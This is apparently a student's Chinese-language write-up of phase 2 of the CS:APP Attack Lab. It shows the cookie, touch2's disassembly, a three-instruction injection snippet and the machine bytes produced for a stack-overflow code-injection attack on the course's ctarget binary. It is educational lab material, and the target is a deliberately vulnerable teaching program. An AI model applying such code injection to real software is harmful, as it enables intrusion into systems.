 

检查我的cookie如下：

```shell
2020012363@hp:~$ ./ctarget -q
Cookie: 0x2c0de9c4
Type string:fsdfsd
No exploit.  Getbuf returned 0x1
Normal return
```



检查`touch2`的地址如下：

```shell
0000000000401842 <touch2>:
  401842:	48 83 ec 08          	sub    $0x8,%rsp
  401846:	89 fa                	mov    %edi,%edx
  401848:	c7 05 aa 2c 20 00 02 	movl   $0x2,0x202caa(%rip)        # 6044fc <vlevel>
```



参考实验原理部分，编写如下功能：

```shell
# phrase2.s
movl $0x2c0de9c4, %edi # 传递cookie
pushq $0x0000000000401842 # 将touch2地址压栈
ret
```



为了得到二进制代码，利用 g++或者gcc将其汇编成二进制文件，再用objdump反汇编。**考虑到服务器上只有gcc，并未配置g++**，故而此处采用gcc即可。

```shell
2020012363@hp:~$ gcc -c pharse2.s -o 2.o
pharse2.s: Assembler messages:
pharse2.s: Warning: end of file not at end of a line; newline inserted
2020012363@hp:~$ objdump -S 2.o > phrase2.s

```



得到如下反汇编代码：

```c

pharse2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf c4 e9 0d 2c       	mov    $0x2c0de9c4,%edi
   5:	68 42 18 40 00       	pushq  $0x401842
   a:	c3                   	retq        
```
